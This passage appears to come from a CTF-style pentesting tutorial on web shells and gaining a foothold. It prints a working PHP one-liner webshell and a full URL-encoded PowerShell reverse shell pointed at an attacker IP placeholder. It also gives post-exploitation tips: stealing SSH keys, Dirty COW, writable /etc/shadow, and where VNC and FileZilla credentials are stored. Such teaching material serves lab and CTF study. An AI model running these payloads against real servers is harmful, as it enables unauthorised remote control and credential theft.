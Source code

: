 There are times when we encounter websites that allow us an opportunity to upload, in some way or another, an executable file. Ideally we would use this opportunity to upload code that would activate a reverse or bind shell, but sometimes this is not possible. In these cases we would instead upload a webshell.

"Webshell" is a colloquial term for a script that runs inside a webserver (usually in a language such as PHP or ASP) which executes code on the server. Essentially, commands are entered into a webpage either through a HTML form or directly as arguments in the URL, which are then executed by the script, with the results returned and written to the page. This can be extremely useful if there are firewalls in place, or even just as a stepping stone into a fully fledged reverse or bind shell.

Here is a basic one-liner PHP webshell: `<?php echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>"; ?>`.

This will take a GET parameter in the URL and execute it on the system with `shell_exec()`. Essentially, what this means is that any commands we enter in the URL after `?cmd=` will be executed on the system. The "pre" elements are to ensure that the results are formatted correctly on the page.

When the target is Windows, it is often easiest to obtain RCE using a web shell, or by using msfvenom to generate a reverse/bind shell in the language of the server. With the former method, obtaining RCE is often done with a URL Encoded Powershell Reverse Shell. This would be copied into the URL as the `cmd` argument:

```bash
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```

This is a URL encoded version of the Powershell reverse shell we discussed earlier.

## Next Steps

We've covered lots of ways to generate, send and receive shells. The one thing that these all have in common is that they tend to be unstable and non-interactive. Even Unix style shells which are easier to stabilise are not ideal.

On Linux ideally we would be looking for opportunities to gain access to a user account. SSH keys stored at `/home/<user>/.ssh` are often an ideal way to do this. In CTFs it's also not infrequent to find credentials lying around somewhere on the box.

Some exploits will also allow us to add our own account. In particular something like **Dirty C0w** or a writeable `/etc/shadow` or `/etc/passwd` would quickly give us SSH access to the machine, assuming SSH is open.

On Windows the options are often more limited. It's sometimes possible to find passwords for running services in the registry. VNC servers, for example, frequently leave passwords in the registry stored in plaintext. Some versions of the FileZilla FTP server also leave credentials in an XML file at `C:\Program Files\FileZilla Server\FileZilla Server.xml` or `C:\xampp\FileZilla Server\FileZilla Server.xml`. These can be MD5 hashes or in plaintext, depending on the version.
